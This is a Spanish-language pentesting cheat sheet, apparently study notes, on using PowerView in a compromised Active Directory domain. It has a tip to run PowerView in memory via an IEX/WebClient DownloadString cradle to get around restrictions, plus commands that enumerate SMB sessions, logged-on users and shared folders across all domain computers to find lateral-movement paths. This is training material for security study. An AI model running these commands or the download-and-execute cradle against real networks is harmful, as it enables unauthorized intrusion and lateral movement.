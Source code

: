 
## 💡 Tips

- Bajo restricciones, ejecutar PowerView de forma "reflectiva" (sin importar el módulo directamente) usando técnicas como `Invoke-Expression` o `IEX (New-Object Net.WebClient).DownloadString(...)`.
- Uso de `-SearchBase` para limitar el scope de búsqueda a una OU específica.
- Uso de `-LDAPFilter` para búsquedas más precisas.


## 🚪 Enumeración para Movimiento Lateral y Reconocimiento de Sesiones (Post-Explotación)

Estos comandos de PowerView son clave para identificar oportunidades de escalada de privilegios, usuarios conectados, y caminos de pivote dentro de un dominio comprometido.

---

### 🧑‍💼 Enumerar Usuarios con Sesiones Activas Remotas (SMB)

```powershell
# Ver sesiones SMB activas en un equipo remoto
Get-NetSession -ComputerName files04
Get-NetSession -ComputerName web04

# Enumerar en todos los equipos conocidos
Get-DomainComputer | ForEach-Object { Get-NetSession -ComputerName $_.Name }
```

---

### 🔎 Usuarios Logueados en Equipos Remotos

```powershell
# Ver usuarios que han iniciado sesión interactivamente o por servicios
Get-NetLoggedon -ComputerName files04

# Automatizar para varios equipos
Get-DomainComputer | ForEach-Object { Get-NetLoggedon -ComputerName $_.Name }
```

---

### 📂 Enumerar Carpetas Compartidas

```powershell
# Compartidos accesibles en un host remoto
Invoke-ShareFinder -ComputerName files04

# Buscar en todos los equipos
Invoke-ShareFinder
```

---
